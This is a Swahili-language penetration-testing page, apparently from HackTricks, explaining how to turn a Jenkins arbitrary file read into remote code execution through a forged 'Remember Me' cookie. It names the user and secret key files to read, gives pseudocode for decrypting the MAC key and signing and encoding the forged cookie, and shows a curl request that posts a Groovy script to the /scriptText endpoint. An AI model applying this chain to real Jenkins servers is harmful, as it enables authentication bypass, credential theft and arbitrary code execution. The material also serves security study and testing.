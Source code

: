 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{{#include ../../banners/hacktricks-training.md}}

Katika chapisho hili la blog, inawezekana kupata njia nzuri ya kubadilisha udhaifu wa Local File Inclusion katika Jenkins kuwa RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Hii ni muhtasari ulioandikwa na AI wa sehemu ya chapisho ambapo ufundi wa kuki isiyo ya kawaida unatumika vibaya kupata RCE kwa kutumia kusoma faili za ndani hadi nitakapokuwa na muda wa kuunda muhtasari wangu mwenyewe:

### Masharti ya Shambulio

- **Mahitaji ya Kipengele:** "Remember me" lazima iwe imewezeshwa (mipangilio ya default).
- **Viwango vya Ufikiaji:** Mshambuliaji anahitaji ruhusa za Jumla/Soma.
- **Ufikiaji wa Siri:** Uwezo wa kusoma maudhui ya binary na maandiko kutoka kwa faili muhimu.

### Mchakato wa Kina wa Kutekeleza

#### Hatua ya 1: Kukusanya Data

**Kurejesha Taarifa za Mtumiaji**

- Fikia usanidi wa mtumiaji na siri kutoka `$JENKINS_HOME/users/*.xml` kwa kila mtumiaji ili kukusanya:
- **Jina la Mtumiaji**
- **Mbegu ya Mtumiaji**
- **Wakati**
- **Hash ya Nywila**

**Uondoaji wa Funguo za Siri**

- Ondoa funguo za kificho zinazotumika kusaini kuki:
- **Funguo ya Siri:** `$JENKINS_HOME/secret.key`
- **Funguo Kuu:** `$JENKINS_HOME/secrets/master.key`
- **Faili ya Funguo ya MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Hatua ya 2: Uundaji wa Kuki

**Maandalizi ya Token**

- **Hesabu Wakati wa Kuisha wa Token:**

```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000 // Ongeza saa moja kwa wakati wa sasa
```

- **Unganisha Data kwa Token:**

```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```

**Ufunguo wa MAC**

- **Fungua Faili ya MAC:**

```javascript
key = toAes128Key(masterKey)  // Badilisha funguo kuu kuwa muundo wa funguo za AES128
decrypted = AES.decrypt(macFile, key)  // Fungua faili ya .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Hesabu ya Sahihi**

- **Hesabu HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey) // Hesabu HMAC kwa kutumia token na funguo ya MAC
tokenSignature = bytesToHexString(mac) // Badilisha MAC kuwa mfuatano wa hexadecimal
```

**Ufungaji wa Kuki**

- **Unda Kuki ya Mwisho:**

```javascript
cookie = base64.encode(
username + ":" + tokenExpiryTime + ":" + tokenSignature
) // Fanya base64 encode data ya kuki
```

#### Hatua ya 3: Utekelezaji wa Msimbo

**Uthibitishaji wa Kikao**

- **Pata CSRF na Token za Kikao:**
- Fanya ombi kwa `/crumbIssuer/api/json` ili kupata `Jenkins-Crumb`.
- Kamata `JSESSIONID` kutoka kwa jibu, ambayo itatumika pamoja na kuki ya remember-me.

**Ombi la Utekelezaji wa Amri**

- **Tuma Ombi la POST na Skripti ya Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

- Skripti ya Groovy inaweza kutumika kutekeleza amri za kiwango cha mfumo au shughuli nyingine ndani ya mazingira ya Jenkins.

Mfano wa amri ya curl iliyotolewa inaonyesha jinsi ya kufanya ombi kwa Jenkins na vichwa na kuki zinazohitajika ili kutekeleza msimbo usio wa kawaida kwa usalama.

{{#include ../../banners/hacktricks-training.md}}

